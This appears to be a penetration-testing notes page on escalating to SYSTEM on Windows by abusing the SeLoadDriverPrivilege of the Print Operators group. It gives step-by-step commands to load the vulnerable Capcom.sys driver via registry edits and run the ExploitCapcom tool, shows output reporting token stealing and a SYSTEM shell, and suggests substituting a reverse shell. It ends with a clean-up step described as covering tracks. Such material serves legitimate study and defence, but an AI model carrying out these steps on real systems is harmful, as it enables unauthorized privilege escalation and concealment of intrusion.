 explorerePrint Operators is a highly privileged group, granting its members SeLoadDriverPrivilege and the ability to log in and reboot a Domain Controller.

With this privilege, we can load a vulnerable driver and exploit it to get System access. 

> This has been patched since __Windows 10 Version 1803__ <br>
It is no longer possible to include references to registry keys under HKEY_CURRENT_USER



## Bypass UAC
If we do not see SeLoadDriverPrivilege, we need to bypass UAC or simply start the shell as Administrator.

// TODO

## Enable the privilege and load the vulnerable driver
If we need to enable the privilege we can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) which will enable the SeLoadDriverPrivilege and load the Capcom.sys driver into the kernel.

First, you might need to edit the includes as such :
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
Then compile it on the target using [cl.exe](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-command-line-syntax?view=msvc-170) : 
```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
Next, download the vulnerable Capcom.sys driver [from here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and edit the registry to reference the vulnerable driver like this : 
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\temp\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```


Verify the driver is not loaded using [driverview.exe](https://www.nirsoft.net/utils/driverview.html) :
```ps1
.\DriverView.exe /stext drivers.txt
Select-String -Path .\drivers.txt -Pattern Capcom
```
Then you can run the binary : 
```ps1
.\EnableSeLoadDriverPrivilege.exe
```
Now if you run DriverView.exe again, you should see the driver : 
```
.\DriverView.exe /stext drivers.txt
Select-String -Path .\drivers.txt -Pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\temp\Capcom.sys
```

## Exploit the vulnerable driver 

Now that the vulnerable driver is loaded in the kernel, we can exploit it using [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) after compiling it using Visual Studio.
After running the executable, it should open a cmd windows as NT AUTHORITY/SYSTEM : 
```ps1
PS C:\temp> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
``` 

### Alternative exploitation : No GUI

If we have no GUI access to the target, we should modify the exploit and replace this line :
```C
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```
with a path to our own binary, like a reverse shell created using msfvenom for example.

## Automating the steps

We can use a tool like [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the first steps of enabling the privilege and loading the driver in the kernel like so : 
```bat
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\temp\Capcom.sys
```
Then run `ExploitCapcom.exe` normally.

## Clean-up

We can cover our tracks by deleting the registry key we created earlier :
```bat
reg delete HKCU\System\CurrentControlSet\Capcom
```